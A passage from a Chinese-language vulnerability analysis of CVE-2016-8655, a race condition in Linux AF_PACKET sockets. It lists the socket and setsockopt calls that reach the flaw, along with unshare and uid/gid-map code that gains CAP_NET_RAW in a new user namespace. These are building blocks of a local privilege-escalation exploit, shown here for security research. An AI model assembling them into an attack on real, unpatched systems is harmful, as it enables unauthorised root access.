 ![exp.c-偏移.jpg](/assets/posts/2024-09-25-cve-2016-8655-AF_PACKET套接字的条件竞争漏洞分析/9.jpg)

## 三、可利用性分析

1. 关联的系统调用

```c
fd = socket(AF_PACKET, SOCK_RAW, htons(ETH_P_ALL));
setsockopt(fd, SOL_PACKET, PACKET_VERSION, &v, sizeof(v));
setsockopt(fd, SOL_PACKET, PACKET_RX_RING, &req, sizeof(req));
```

1. 权限要求

攻击者需要在当前user namespace中拥有CAP_NET_RAW权限才能调用上述系统调用。

使用unshare系统调用创建并进入一个新的user namespace，在新的user namespace中创建一个新的net namespace即可拥有CAP_NET_RAW权限。

```c
unshare(CLONE_NEWUSER);  //创建并进入新的user namespace
unshare(CLONE_NEWNET);   //在新的user namespace中创建新的net namespace
write_file("/proc/self/setgroups", "deny");
write_file("/proc/self/uid_map", "0 1000 1\n", real_uid);//映射uid到父user namespace
write_file("/proc/self/gid_map", "0 1000 1\n", real_gid);//映射gid到父user namespace
```
